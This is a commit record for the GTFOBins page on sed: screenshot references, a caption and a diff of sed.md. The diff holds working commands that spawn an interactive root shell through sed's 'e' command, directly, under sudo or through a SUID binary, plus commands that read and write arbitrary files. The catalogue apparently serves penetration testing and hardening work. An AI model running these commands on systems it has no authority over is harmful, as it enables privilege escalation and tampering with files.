

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/sed.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Fix sed execute and file write, also enforce standards

```diff
--- a/_gtfobins/sed.md
+++ b/_gtfobins/sed.md
@@ -1,19 +1,23 @@
 ---
 functions:
   execute-interactive:
-    - code: sed "e /bin/sh -c 'exec 10<&0 11>&1 0<&2 1>&2; /bin/sh -i'"
+    - description: GNU version only. Also, this requires `bash`.
+      code: sed -n "1e bash -c 'exec 10<&0 11>&1 0<&2 1>&2; /bin/sh -i'" /etc/hosts
+  execute-non-interactive:
+    - description: GNU version only.
+      code: sed -n "1e id" /etc/hosts
   sudo-enabled:
-    - code: sudo sed "e /bin/sh -c 'exec 10<&0 11>&1 0<&2 1>&2; /bin/sh -i'"
+    - description: GNU version only. Also, this requires `bash`.
+      code: sudo sed -n "1e /bin/bash -c 'exec 10<&0 11>&1 0<&2 1>&2; /bin/sh -i'" /etc/hosts
   suid-enabled:
-    - code: |
-        LFILE=file_to_read
-        ./sed -e '' "$LFILE"
+    - description: GNU version only. Also, this requires `bash`.
+      code: ./sed -n "1e /bin/bash -c 'exec 10<&0 11>&1 0<&2 1>&2; /bin/sh -i'" /etc/hosts
   file-read:
     - code: |
         LFILE=file_to_read
-        sed -e '' "$LFILE"
+        sed '' "$LFILE"
   file-write:
     - code: |
         LFILE=file_to_write
-        echo x | sed "s/x/data/;w $LFILE"
+        sed -n "1s/.*/data/w $LFILE" /etc/hosts
 ---
```
